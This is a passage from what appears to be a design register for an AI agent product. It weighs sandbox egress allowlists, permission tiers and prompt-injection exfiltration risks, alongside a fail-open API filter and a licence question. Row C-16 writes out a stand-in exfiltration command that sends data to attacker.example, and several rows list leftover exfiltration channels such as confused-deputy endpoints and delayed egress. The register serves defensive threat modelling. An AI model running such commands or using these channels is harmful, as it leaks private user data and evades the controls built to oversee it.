declared precision at all.** **What this adds to the four instances above.** They say *check the published field against something else*. This one says **the field may not exist**, and a derived-verification design that assumes the contract will declare what it needs will silently degrade into either a fitted threshold or a refusal rate nobody budgeted for. **Contract-derived verification is bounded by what the contract happens to declare, and this contract declares less than D-09 and D-17 assumed** — which is the same conclusion D-21 amendment (4) reaches from the coverage side, arriving here from the metadata side. |
| C-15 | **NEW 2026-08-02 — the ceiling test produced an architecture requirement that the product vision forbids.** [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md) and `plan.md` OD-07: where no synthesized tool fits the question the tool arm **burns its entire budget and submits nothing** — three of four per-record failures were exhaustion rather than wrong answers, against a shell arm that exhausted nothing in 31 scored attempts — so **the emitted stack needs a general fallback path rather than synthesized tools alone.** [07](./07-product-vision.md) §3.4 and §1.2 restatement 2: an agent that operates *through the running application* and an agent that operates *on the codebase with general tooling* are two products, and **fusing them assembles the lethal trifecta by construction** — private data, untrusted content, egress. A general fallback is, structurally, the second class arriving inside the first. | **Not adjudicated here, and deliberately so: OD-07 assigns it to the production specification, and it touches a NON-NEGOTIABLE principle.** What this row can fix is the framing, because the two claims are less symmetrical than they look. **The requirement is evidence and the prohibition is design**, which is the unusual direction: restatement 2 was a v1 scoping decision made from threat modelling, and the fallback requirement fell out of a measurement nobody set up to produce it. Evidence does not automatically win — the trifecta argument is structural rather than empirical, so no measurement of tool coverage can refute it — but a scoping decision that the measured failure mode walks straight through is a decision that has to be re-made rather than re-asserted. **Three shapes are available and the register should not pretend otherwise.** *Fallback with the trifecta broken at a different seam* — a general path that has no egress, or no untrusted input, or no private data, which is capability removal in the shape D-08 already applies to the iframe tier and is the only one that keeps restatement 2 intact. *Fallback as an escalation to a human* rather than to a more capable agent, which converts total budget loss into a support ticket and costs latency instead of safety. *Fusion with a structural gate*, which is what Principle IV would have to be read to permit and is the option that needs the owner rather than the architect. **What is not available is the status quo**, because the current design has no fallback at all and the measured cost of that is not graceful degradation but a run that spends everything and returns nothing. **One caution on the evidence's weight, stated because this row will be quoted in a design argument:** the exhaustion pattern is four tasks on one application with one model, and the *pattern* is what carries — a tool surface is a bet that the question falls inside it — not the 3-of-4 ratio (U-42). **Sources:** `plan.md` OD-07; [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md); [07](./07-product-vision.md) §3.4; §1.2 restatement 2; D-08; D-19; `.specify/memory/constitution.md` Principle IV. **UPDATED 2026-08-02 by `plan.md` OD-09, and the update concentrates this row rather than resolving it.** OD-09 removes the synthesized tool surface, so *"a general fallback path"* is no longer a fallback from anything — **the general path is the entire v1 tool surface.** Two of the three shapes above survive and one is gone. *Capability removal at a different seam* survives and is now the most likely answer. *Escalation to a human* survives and is stronger than before, because D-22 already builds the gate it would escalate through. *Fusion with a structural gate* is no longer a shape the owner may choose later — **it is the v1 default as of OD-09**, arrived at by scope reduction rather than by a decision on this row, which is precisely the "inherit it silently" outcome this register exists to prevent. D-22 is the partial answer: the gate exists and it can block. What it does not supply is the compile-time trifecta check, which is C-16. |
| C-16 | **NEW 2026-08-02 — `plan.md` OD-09 defers effect classification, and constitution Principle IV (NON-NEGOTIABLE) requires it. Both cannot be read at face value.** OD-09: *tool synthesis, promotion selection, effect classification and decomposition-into-agents leave v1.* Principle IV: **every emitted tool** is classified read-only, reversible-write, or irreversible/destructive, and the tier is enforced by an interception point that can *block*. Under the pivot v1 emits a shell and an HTTP client pointed at a live target holding real data, so a tool capable of `DELETE` ships with no tier attached to it anywhere. | **Resolved, and resolved in Principle IV's favour, because the two statements are about different objects and only one of them is non-negotiable.** OD-09 defers a **differentiator** — a derived `read_only`/`write`/`destructive` label attached to a *synthesized* tool at generation time, whose value was as a moat and whose gate was D-16's 0.98 precision. Principle IV binds an **obligation** over *emitted* tools. OD-09 changes which tools are emitted; it does not make v1 emit none. **So the deferral is over-broad on this one clause and is propagated narrowed: the differentiator defers, the obligation does not** (D-22, and D-16 restated). **What makes the narrowing cheap rather than a scope re-expansion — and this is the part that decides it.** The v1 tier does not need static analysis at all: the served-operation specification D-18 already fetches carries the HTTP verb, so `GET`/`HEAD`/`OPTIONS` → read-only, `POST`/`PUT`/`PATCH` → reversible-write, `DELETE` → irreversible is a table lookup over an artifact v1 builds anyway. The sophisticated version — reading a handler body to discover that `POST /purge` is irreversible — is what defers, and nothing in v1 depends on it. **The residue, which is a real loss and is not resolved by D-22.** A static label over a fixed catalogue supports a **compile-time** trifecta check: §2.5's `no_trifecta` invariant is decidable before the agent runs. A per-call tier over a general shell is not, because whether a session assembles private data, untrusted content and egress is a property of the trajectory. **So v1 has an enforcement point and no static guarantee, and §2.5's invariant has no v1 counterpart.** Combined with C-15 — under OD-09 the general path is the whole tool surface — this is the single largest safety regression the pivot causes, and it is recorded here rather than smoothed into D-22. **What is not claimed:** no precision figure exists for the verb→tier mapping (U-43), so the review gate (D-15) is carrying weight a validated classifier was meant to carry. **RE-WEIGHED 2026-08-03 against `plan.md` OD-10, which asked whether a read-only v1 defuses this row. It defuses one limb of two, and this row stays open — narrowed, not closed.** The proposition put to it was that the lethal trifecta requires the ability to change state or exfiltrate, so removing writes cuts a limb and the lost compile-time invariant costs materially less than the paragraph above implies. **The first half is right and the inference does not follow, because the trifecta is a conjunction of three conditions and "write to the target" is not one of them.** Private data + untrusted content + **an egress path**: a read-only v1 agent still holds a credential bound to real records, still ingests stored rows and tool returns, and **still holds a shell and a general HTTP client, so egress is unconditional.** `curl https://attacker.example/?d=$(…)` performs no write against the target and exfiltrates the data completely. [07](./07-product-vision.md) Q10 states this in the corpus's own voice, written before the question arose: *read-only is not automatically safe… reads can be the exfiltration itself.* And §2.5's `no_trifecta` invariant was **an exfiltration check** — so the thing OD-10 removes is not the thing the invariant guarded, and its loss is **not** materially cheaper. **What OD-10 does retire is the other half of this row, and it is the half a reader reaches for first:** `curl -X DELETE` against production is out of the v1 capability set by policy, enforced structurally at the same interception point. That is a real reduction in the worst outcome, and it is why this row is narrowed rather than unchanged. **The net position, stated so nobody quotes half of it.** ~~*this is the single largest safety regression the pivot causes*~~ — **it remains the largest, and its content changes: the regression is now entirely about exfiltration under injection, not about destruction.** The audit in `.cursor/skills/agent-safety-and-sandboxing/` resolves identically before and after OD-10 — two legs present, and the live question is whether untrusted content enters context — which is the cleanest available confirmation that read-only did not move this row's central problem. **One thing genuinely improves and it belongs to U-43 rather than here:** with default-deny, only a false *read-only* resolution can cost integrity, so the classifier's error surface narrows to one shape. **RE-WEIGHED A SECOND TIME 2026-08-03 (later the same day), against the question "does network-layer egress control close the exfiltration limb?" The answer is *substantially, not completely*, and the more useful finding is that this row has been arguing about the wrong bullet of Principle IV.** ① **The row's own framing is too narrow.** Everything above reasons from Principle IV's *permission-tier* bullet. The bullet immediately above it — **sandboxing with a real boundary, *network allowlisted to named hosts*** — is a separate, equally NON-NEGOTIABLE requirement that v1 also fails, and no site in the corpus recorded it. That is **C-17**, and it makes the mitigation §7.6 files as *"the cheapest remaining option, left to the production specification"* an **obligation already on the books** rather than an option. ② **What the mechanism closes.** Default-deny egress pinned to the target's API host and port, enforced at the host with DNS controlled (§2.9 non-negotiable 4), removes the direct channel `curl https://attacker.example/?d=…` and simultaneously discharges the non-negotiable OD-08 degraded. **It also partially restores what this row records as lost.** The `no_trifecta` check was valuable because it was *decidable before the run*; an egress allowlist is decidable at **configuration** time over a fixed destination set. That is a smaller property than the invariant covered — destination reachability rather than composed effect labels — and it attaches to a **deployment** rather than to an artifact, so under self-hosting it is a property we specify and the customer instantiates. **Weaker, and not nothing: the loss goes from *no static guarantee* to *a static guarantee about a narrower object that we do not install*.** ③ **What it does not close, and this is the part that keeps the row open.** Three residual paths survive an allowlist: **the target application as a confused deputy** (U-44) — an operation the agent is *allowed* to call that makes an outbound request on its behalf; **the response channel** to the operator, which no network policy touches and which becomes a live exfiltration path the moment the operator's client auto-fetches remote content from agent output ([08](./08-auth-identity-and-secrets.md) §5.4 records this for the iframe and it applies unchanged to HTTP/SSE); and **delayed egress** through durable artifacts the agent writes into shared storage that something else later transmits. ④ **On the target actually measured, the deputy path is closed — by OD-10, not by the allowlist.** Mealie's five URL-fetching operations (`POST /api/recipes/create/url`, `…/url/bulk`, `…/url/stream`, `POST /api/recipes/test-scrape-url`, `POST /api/recipes/{slug}/image`) and every webhook and notification *test* endpoint are unsafe methods, so default-deny already denies them. *(That reading is `provisional` in D-17's sense — it comes from the published operation table, not from the handlers, which is precisely the distinction C-14 exists to enforce; U-44 carries the qualification in full.)* **That is a contingent property of one application and must not be generalized**: link-preview, oEmbed, avatar-fetch and image-proxy endpoints are commonly `GET`, and one of those re-opens the limb completely while resolving `read_only` under the rule set OD-10 defines. **The net position, restated for the third time and narrowed again.** The regression is still real, it is still about exfiltration, and it is now **bounded and target-dependent** rather than unconditional: with the C-17 control in place, v1 cannot exfiltrate directly, and whether it can exfiltrate *through the target* is a per-deployment question with a cheap, zero-model-spend answer (U-44). **What must not be written is that the trifecta is cut.** The egress leg is *narrowed to enumerated channels*, which is a defensible customer statement and is not the same claim. **RATIFIED 2026-08-03 as `plan.md` OD-12, and this row stays open — narrowed for the third time, and now narrowed by a mechanism that exists rather than by an argument for one.** Three changes and one non-change. **The control is real and singular:** all sandbox egress traverses one mandatory proxy, so the direct channel closes for shell-originated traffic as well as for the runtime's HTTP client — which is what the third re-weighing above could not yet claim, because it was reasoning about a network policy while the ladder still had to classify argv (C-17, now closed). **The partially-restored static property from ② is confirmed and its size is unchanged:** the allowlist is decidable at configuration time over a fixed destination set, which is narrower than `no_trifecta` and attaches to a deployment rather than an artifact. **One residual channel from ③ shrinks and the others do not:** the operator-facing response channel gains a cheap and wholly-ours mitigation — agent output is never rendered in a way that issues outbound requests ([08](./08-auth-identity-and-secrets.md) §5.4) — while delayed egress via durable artifacts and operator widening are untouched, the latter now a D-15 configuration review object. **The non-change is ④ and it is why the row stays open: U-44 is exactly as unmeasured as it was.** Whether the target's own safe-method operations fetch URLs on the agent's behalf is a per-target property, and on the one target measured it is closed by OD-10 rather than by any egress control. **Net, and this is the sentence to quote: the regression is bounded, target-dependent, and no longer conditional on an unresolved question about the shell — and it is still a regression.** ~~a v1 requirement is drafted at OD-12 (proposed)~~ **decided.** **Sources:** `plan.md` OD-09, OD-10, **OD-12**, **OD-13**; `.specify/memory/constitution.md` Principle IV bullets 1 and 2 (**v1.2.0**); D-16; D-21; D-22; D-15; C-15; **C-17**; [07](./07-product-vision.md) Q10, §3.2.5 item 5; [08](./08-auth-identity-and-secrets.md) §5.4, §8.1 item 4; §2.4; §2.5; §2.6; §2.9; §7.6; U-43; **U-44**. |
| C-17 | **NEW 2026-08-03 — v1's emitted stack has unrestricted outbound network, and constitution Principle IV (NON-NEGOTIABLE) requires a network allowlist as architecture. Both cannot be read at face value, and the second one has never been cited.** Principle IV bullet 1: *Sandboxing with a real boundary. Filesystem scoped, **network allowlisted to named hosts**, CPU/memory/wall-time capped, no credentials outliving the run.* [08](./08-auth-identity-and-secrets.md) §8.1 item 4 lists *default-deny egress at the host, metadata endpoint and RFC 1918 blocked* among the **hard requirements — do not ship without these**. [07](./07-product-vision.md) §3.2.5 item 5: *egress control is a runtime requirement, not a deployment detail.* **v1 emits a shell and a general HTTP client with open outbound network**, so all three are unsatisfied — and §7.6, the one place the fix is named, files it as *"the cheapest remaining option … left to the production specification."* **An option is the wrong status for a requirement that is already written down in three places, one of them non-negotiable.** | **Resolved in Principle IV's favour, on exactly the reasoning C-16 used one bullet higher up, which is why this row is a sibling of C-16 rather than a subset of it.** C-16's move was: OD-09 defers a *differentiator*, Principle IV binds an *obligation*, and the deferral is over-broad on the obligation. **The same move applies here and nobody made it.** Every Principle IV discussion in this corpus — C-16, D-22, OD-10, `.cursor/skills/agent-safety-and-sandboxing/` — reasons from bullet 2, *permission tiers*. Bullet 1 is a different control at a different layer and it was never checked against the pivot. **Why the omission was easy to make, and why it is not harmless.** The tier gate looks like it covers egress: §2.6's resolution ladder sends *unmatched egress* to `UNKNOWN`, and under OD-10 `UNKNOWN` denies. **That reading does not survive contact with a shell.** The gate sees argv; a command it allows can open any socket it likes, and no application-layer check can see inside `python3 -c` or `make`. So the ladder either denies all shell — which deletes OD-07's general fallback path and describes a product the ceiling test did not evaluate (C-15) — or it permits shell and controls no egress. **Egress is a network-layer property and needs a network-layer enforcement point below the process** (§2.6, §2.9 non-negotiable 4). **What the control is, precisely, because the loose phrasing is the failure mode.** Default-deny outbound from the sandbox, allowlisted to the target's API **host and port**, address **pinned at configuration time** rather than re-resolved by name (DNS rebinding), **DNS itself denied or proxied** (a reachable recursive resolver is a complete exfiltration channel that never touches a blocked destination), RFC 1918 / link-local / cloud-metadata / loopback denied **even on an allowlisted host**, and the policy enforced **at the host** rather than in the guest. **One control, three jobs — and it genuinely does all three, with one bounded failure.** It satisfies this row; it discharges §2.9's non-negotiable 4, which OD-08 degraded by making co-location the default; and it cuts C-16's direct exfiltration channel. **The bounded failure is the target itself** (U-44): an allowlist that permits the target's API necessarily permits any endpoint of that API that makes an outbound request, so the target becomes a confused deputy for egress. On the measured target that path is closed **by OD-10 rather than by this control** — every URL-fetching and webhook-test operation is an unsafe method — and that is a property of one application, not a guarantee. **Three things this row does not fix, recorded so the control is not oversold:** the response channel to the operator's own client, delayed egress via durable artifacts, and the fact that under self-hosting **we specify this policy and the customer instantiates it**, so it is a deployment property rather than an artifact property and a widened allowlist (PyPI, npm, a Git remote) silently restores the full channel. **A v1 requirement is drafted at `plan.md` OD-12 and is marked proposed, pending owner ratification.** **A fourth site says it too, and it is the one that makes the v1 version cheap.** [13](./13-claude-managed-agents.md) §7 item 2 asks for `allowed_hosts` deny-by-default as *the emitted environment shape*, and argues the allowlist is derivable from static analysis. **Under OD-09 the derivation defers with synthesis and the requirement gets *cheaper* rather than deferring with it**: v1 has exactly one legitimate destination and already knows it from the reachability annotation (D-18), so v1's allowlist needs no analysis at all. **Four independent statements of one control, none of them cited when OD-10 asked whether read-only defused the trifecta — that is the finding, more than the control is.** **✅ CLOSED 2026-08-03 by `plan.md` OD-12 and OD-13, and the two halves of this row close by different instruments, which is worth separating because only one of them is a mechanism.** **The incoherence is dissolved rather than adjudicated.** This row said the ladder *either* denies all shell *or* controls no egress, and treated that as a choice. It is not: both readings assume the effect gate and the egress control are the same mechanism, and OD-12 separates them by moving both into **one mandatory egress proxy that every outbound byte traverses**, which sees a request identically whether it came from the runtime's HTTP client or from `curl` in a shell. **So v1's shell executes, no ladder classifies shell, and the gate does not need to see past a subprocess boundary because it is no longer inside the process.** §2.6 carries the replaced ladder. **The specification is now the constitution's rather than this row's.** OD-13 amends Principle IV bullet 1 to require pinned addresses, host *and* port, DNS denied or proxied, and loopback / RFC 1918 / link-local / metadata denied even on an allowlisted host — the four terms this row spelled out because the text did not — taking `.specify/memory/constitution.md` to **v1.2.0**. **Read the closure precisely, because a sharper requirement that nothing implements is still unmet: this row closes on OD-12's mechanism, not on OD-13's wording.** **One assumption was tested before the closure was recorded, and it is the same failure shape this row is about.** A proxy enforces a *method* allowlist only if it sees the method; against HTTPS a CONNECT-level proxy sees a host and a port, so **the method allowlist would silently degrade into a destination allowlist while appearing intact** — method-versus-destination conflation arriving one layer below the one this row caught it at. Seeing the method implies TLS termination, a proxy CA inside the sandbox, and re-origination; **OD-12 rejects interception for v1** — it concentrates impersonation of every host into one key and forces a certificate pin onto self-hosted targets serving private-CA certificates — and **re-originates from a cleartext proxy endpoint instead**, which works only because v1 has one destination and owns the base-URL string the agent is handed. **What does not close.** The three things this row already recorded as unfixed are unfixed: the response channel to the operator's client, delayed egress via durable artifacts, and the fact that the customer instantiates a policy we specify. **U-44 is untouched** and is the honest remainder. **Sources:** `.specify/memory/constitution.md` Principle IV bullets 1–2 (**v1.2.0**); [07](./07-product-vision.md) §3.2.5 item 5; [08](./08-auth-identity-and-secrets.md) §5.4, §6.1, §8.1 item 4; [13](./13-claude-managed-agents.md) §7 item 2; §2.6; §2.9; §7.6; C-14; C-15; C-16; D-18; D-20; D-22; U-44; `plan.md` OD-07, OD-08, OD-10, **OD-12**, **OD-13**. |
| C-18 | **NEWLY OPENED 2026-08-03 — the safety argument for a curated tool surface points the opposite way from the synthesis argument, and both readings come from the same measurement.** [finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md) establishes model-free, by direct HTTP probe, that Mealie answers **HTTP 200 with the entire unfiltered collection** for any `categories` value it cannot resolve — display name, nonsense string, or empty string alike — while resolving the slug and the UUID correctly. The curated tool cannot fail that way, and the reason is specific: `search_recipes` **never passes `category` to the vulnerable query parameter at all**, fetching details and filtering client-side instead, so the fail-open path is structurally unreachable through it. That is the strongest safety claim in the record and it is not an anecdote. **But the thing that produced the immunity is a human declining to use the API's own filter** — the one judgement a generator has no basis for making. A tool synthesized from `GET /api/recipes` would wrap `categories`, because it is a documented parameter on a documented operation and precisely what a promotion pass selects, and it would inherit the defect exactly as the shell agent did. **So the better the safety story for hand-written tools, the worse the story for synthesized ones, from the same evidence** — and the two readings are both load-bearing: the first is what D-19 asserts about the product, the second is what D-21 defers to v2. | **Not adjudicated, and declining to adjudicate is the honest position rather than a dodge — this is a real conflict between two claims the corpus makes, and it resolves by measurement or by disclosure and not by argument.** **What is not in dispute.** E7 measured a *ceiling*: what a well-written tool surface can do. The immunity is real at that ceiling and needs no rate to stand up, which is why [finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md) states it as a structural property rather than as five passing attempts. **What is in dispute is whether the property survives generation**, and nothing in the record bears on that in either direction. **Two resolutions are available and only one of them is cheap.** ① **A mechanism that detects fail-open parameters at synthesis time** — issue the documented operation with a value that cannot resolve, and compare the response to the unfiltered one; where they match, the parameter is fail-open and the emitted tool must not delegate to it. This is a *probe*, so it lands on D-18's reachability stage rather than on synthesis, it costs one extra request per filter parameter, and **it does not exist and has not been designed**. ② **An explicit statement that emitted tools inherit their target's defects**, carried on every synthesized tool as a contract field in the D-17 sense — honest, free, and a materially weaker product. **Until one is taken, the operative rule is the narrow one:** *this* curated tool is immune to *this* hazard because a human overrode the API, and the safety limb of the product claim (D-19) **must be read as scoped to hand-written surfaces**, which are exactly the surfaces v1 does not emit and v2 does not promise. **Why this is a contradiction and not merely a limitation.** A limitation would narrow one claim. This one makes the *evidence for* the curated surface into *evidence against* the synthesizer, so citing the fail-open result in support of v2 synthesis is citing it against itself — which is the same shape as [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md)'s finding that twenty mechanically-derived tools lose to a `jq` pipeline, arriving from the safety side rather than the cost side. **Sources:** [finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md); [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md) §Limb 2; D-19; D-21; D-17; D-18; C-14; C-15; U-41; U-45; `plan.md` OD-07, OD-09. |
| C-19 | **NEWLY OPENED 2026-08-03 — a negative control passed, correctly, on an arm whose only non-trivial output was fabricated. Both statements are true and they read as incompatible.** [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md) §Two things nobody flagged. E8's §7(5) predicted-null control asserts that the schema-derived arm (c1) detects **zero numeric value errors**. It detects zero, on the eligible population, and the control passes — that pass is genuine evidence for the prediction and is not being withdrawn. In the same run, c1's one clause that produced any non-trivial verdict fired **three times across the frozen corpus and was wrong all three times**: a cardinality clause comparing a submitted collection's length against a `total` it took from the last envelope anywhere in the transcript, naming in its provenance string an endpoint it never read. **Corpus-wide precision 0 of 3.** The control could not see it, because the control is scoped to the *numeric* class and every one of those fires is *set-typed*. | **Resolved as a scoping defect in the control, not as a conflict in the evidence — and the resolution is a rule rather than a repair, because the arm is quarantined and amendment rule 2 forbids touching the clause now.** **What each statement actually licenses.** The control licenses "c1 detects no numeric value errors", which is what §7(5) predicted and what [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md) confirms. It licenses **nothing** about c1's set-typed behaviour, its precision, or its fitness — and it was read, by three consecutive artifacts, as though it did. A predicted-null control is a *bound on one class*, and a bound on one class is silent about every other class by construction. **The second half is a sampling gap of the same shape, and it is what makes this a register entry rather than a footnote.** Both false alarms fell outside the seeded 60-positive stratified sample, so the arm's own false-positive-rate metric — `FPR_c1`, the one number designed to catch exactly this — read **0 of 60** in every dry run while the arm was fabricating. Both records were *eligible*; they were simply not drawn. **A sample sized for one component's metric is not automatically sized to expose another component's failure mode**, and a stratification designed around the judge's false-alarm rate had no reason to over-sample the two records where a verifier clause misfires. **The operative rule, and it generalises past this harness.** ① Every negative control states, in its own output, the class it bounds; a control that does not name its scope will be read as unconditional. ② A passing control on a component is not evidence about the component, only about the class. ③ Where a component's failure mode is unknown, score it on the **full population offline** and reserve the sample for the metric the sample was sized for — which is precisely the asymmetry the c2 result now carries explicitly (0 of 220 offline against 0 of 60 sampled; see P-07). **Rule ③ acquired a rider 2026-08-03, from the defect it turned out to cause: the full population contains the records the instrument *declined*, and those are not passes.** [finding 018](../specs/001-discovery-validation/findings/018-verifier-false-alarm-attested-denominator.md) found 45 such records inside that 220, making it a statement rather than a rate — the pooled rate is 0 of 175 compared. **U-49 is the mirror image of this entry and the two are worth reading together**: C-19 is a denominator that *excludes* the failure, U-49 is one that *pads itself* with cases the instrument could not fire on, and both print a clean rate that survives arithmetic checking. **Why this is a contradiction rather than a limitation.** A limitation would narrow a claim. This one made a *broken component look verified*, and it is the second time in this harness's short life that a c1 control has been technically correct and substantively empty — the harness README already records two clauses that were silently vacuous until planted fixtures caught them. The pattern is that **the control and the defect were designed by the same reasoning**, so the blind spot is shared rather than independent. **Sources:** [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md) §Result: a schema alone does not reach value errors, §Two things nobody flagged; D-21; U-47; U-33; `plan.md` OD-14. |
| C-20 | **NEWLY OPENED 2026-08-04 — a major vendor ships `litellm` as a hard runtime dependency and declares it MIT, against `plan.md` OD-16's decision not to ship it at all.** [`15`](./15-nvidia-oo-agents.md) §6.3, verified against the vendored tree the same day: `examples/labs-OO-Agents/pyproject.toml` carries `litellm>=1.84.0` in `dependencies` rather than in an extra, and `THIRD_PARTY_NOTICES.md` reads *"litellm - MIT License."* NVIDIA's own product is Apache-2.0. **OD-16 removed the same package from v1 on a licence ground**, recorded in [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md) result 8: the PyPI `License` field is empty with no licence classifiers, and the repository `LICENSE` is MIT *except* everything under `enterprise/`, which carries a separate proprietary licence. A vendor this size treating as shippable a dependency we removed is the first external datapoint against the only decision in this corpus taken on a licence ground. | **Not a contradiction of *fact* — a contradiction of *disposition*, and it is recorded at low weight for exactly that reason. Both statements are true because they describe different scopes.** NVIDIA's notice describes a third party's **repository root**; OD-16 turned on what an automated licence scan of an **emitted customer pack** finds in the **installed wheel**. **The notice is silent on both facts OD-16 turned on** — it names no package-metadata state and no `enterprise/` carve-out anywhere, and its own header points a reader at *"the installed `.dist-info` metadata"* for full licence text, which is precisely the artifact finding 003 found to declare nothing for this package. So the notice's evidence pointer lands on the gap rather than closing it. A downstream product cannot discharge a licence-scan obligation by citing an upstream vendor's summary of a third party's licence. **What was and was not re-checked, because the asymmetry matters here more than the conclusion.** NOOA's side was re-read on 2026-08-04 — the dependency line, the notice line, the silences. **Finding 003's side was not**: the empty `License` field and the `enterprise/` carve-out are dated 2026-08-02 and package metadata changes without anyone here noticing. **What would change our mind:** `litellm` publishing a non-empty `License` field or licence classifiers, or the `enterprise/` carve-out being removed or shown not to reach the installed wheel. Both are minutes of work and neither has been done since the finding. **What would not:** another vendor's attribution file, however large the vendor; and NOOA's own Apache-2.0 licence, which governs NOOA and says nothing about its dependency. Nor does the pin itself cut either way — NOOA's comment attributes `>=1.84.0` to a critical proxy-server RCE and to clearing the yanked 1.82.7/1.82.8 releases, which is a *second* OD-16 ground rather than an answer to the first. **Weight: low, and nothing here asks OD-16 to be reopened.** No v1 artifact depends on the answer and OD-15 already made the removal cheap. **The entry exists so the decision is re-argued from the record rather than re-litigated from memory** by the next reader who notices NVIDIA disagreeing with it. **Sources:** [`15`](./15-nvidia-oo-agents.md) §6.3, §8; [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md) result 8; `plan.md` OD-15, OD-16; C-06, which is the same shape resolved the other way — two licence statements about different layers, there reconciled rather than left standing; U-48. |

**C-14, STRENGTHENED 2026-08-02, and the strengthening changes the operational consequence rather than adding a third example** ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §4). This row was inferred from one router. Three have now been measured on the same field, and **they are wrong in opposite directions.** Starlette **under-reports** — the first matching route's methods, recall 0.7692 on the real target, wrong on 9 of 51 routed paths. Flask/Werkzeug **over-reports** — the union across every matching rule, so a parameterised sibling's methods are attributed to a literal path, precision 0.8889. Django is **exact where the view declares its methods and silent where it does not**, because its resolver holds no method information at all. Three implementations of the same specification, three distinct wrong answers, one of them wrong in the opposite direction from the others. **The rule was "never treat a framework-populated field as authoritative without checking it against the route table." The rule that now follows is stronger and less obvious: a correction learned on one implementation is not merely non-transferable — applying it to another implementation makes the answer worse.** Widening the `Allow` set to recover Starlette's missing methods is exactly the wrong move on Flask, which already over-reports; narrowing it to fix Flask deletes real operations on Starlette. And **reading the header correctly requires knowing which router you are talking to, which is precisely what cannot be determined from outside** — so there is no per-router dispatch available to the mechanism that would need it.

**Two sharpenings of the Starlette case, both of which make defect A a different defect from the one recorded above.** Its answer is **a function of route registration order**: in E15's reconnaissance the header named `GET, HEAD` for a path whose only declared method is `POST`, because a parameterised sibling was registered first, and reordering the two registrations changed the header to `POST`. So the failure is not incompleteness — **the header can name a different route's methods entirely.** E14 recorded it as under-reporting only because on `adk-python` the first partial match happened to be a real route for that path. That is the same accident as the one that made E14's precision look exact, and it is the second time the same target's uniformity concealed a mechanism's failure mode.

**Where this bites hardest is that the forbidden field is the only schema-free method-level signal that exists** (U-39). C-14 forbids reading it; D-18 part 4 forbids reading it; and without it a schema-free catalogue cannot say which verbs a path serves. **This row is therefore no longer only a rule about labelling subsets — it is one half of a product constraint.**

---

## 5. Consolidated uncertainty register

Every "could not verify" across all thirteen documents, in one place. **Blocking** means do not commit architecture or make a customer promise until resolved. Ordered by blocking status, then by how much they would cost to be wrong about.

**U-26 through U-40 are different in kind from the rest and are recorded as newly opened rather than quietly absorbed.** They were not gaps in the corpus's reading; they are problems that measurement revealed and that no document had thought to ask about — U-26 through U-29 from [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md), U-30 and U-31 from [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md), U-32 and U-33 from [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md), U-34 through U-38 from [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md), U-39 and U-40 from [finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md), and U-41 and U-42 from [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md), U-43 from `plan.md` OD-09, U-44 from a re-reading of [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md), U-45 and U-46 from findings [013](../specs/001-discovery-validation/findings/013-ceiling-test-budget-parity.md) and [014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md), and **U-47 from [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md)**. Numbering is append-only so existing cross-references stay valid; read position within a subsection as the ordering, not the number. **Worth noticing about that list: of the five entries finding 010 opened, the very next experiment resolved one (U-34), partly resolved and partly replaced another (U-37), and corrected a third (U-38) — while opening two of its own.** That is what a register is for, and it is also a caution: the rate at which measurement opens new entries has not slowed, and the two new ones are *more* specific than the ones they replace rather than vaguer — each has a named trigger and a named framework, which makes them harder to defer, not easier.

**A resolved entry is struck through and annotated in place rather than moved or deleted**, which is how U-01, U-03 and O-06 were handled. "Leaves §5.1" therefore means "no longer blocks," not "no longer appears here." **Extended 2026-08-03 to cover *reclassification* as well as resolution, because the two are different and the section now contains an instance of each.** An entry the owner reclassifies out of the v1 blocking set is annotated in place under the same rule, so **U-39** appears below carrying a **v2-blocking** marking rather than having been struck or removed. Read each row's own marking; membership of this section is no longer sufficient to establish that an entry blocks v1. **Extended again 2026-08-03, later the same day, and the extension is a second instance rather than a second rule: ~~U-39 is the only reclassified entry~~ — **U-05** is reclassified by the same owner act shape and appears below carrying a **hosted-tier-blocking** marking.** The two markings are different destinations and the difference is load-bearing: U-39 gates a **version** (any decision to widen admission, which is v2) and U-05 gates a **tier** (the hosted deployment model, which OD-08 deferred without dating). Neither is a demotion to §5.2, because §5.2 is *high-impact, non-blocking* and a marking that names what an entry still blocks is not non-blocking. **So this section now holds three kinds of row — resolved-and-struck, live-and-v1-blocking, and reclassified-with-a-named-successor-gate — and only the row's own marking distinguishes them.**

**U-43 is added 2026-08-02 by `plan.md` OD-09 and it is the only entry the pivot *opens*.** Everything else OD-09 touches in this register it either narrows (U-02, re-aimed at a quantity v1 cannot compute) or leaves alone. **The counter-intuitive result is worth stating explicitly, because a ~10× scope reduction ought to close uncertainties and this one closes none.** The entries here are about the runtime, the reachability mechanism, the spend ceiling, and the evidence base — all of which v1 keeps — while the entries a smaller product would have retired were never here, because synthesis was largely unmeasured rather than measured-and-doubted. **The register's blocking count goes up by one.**

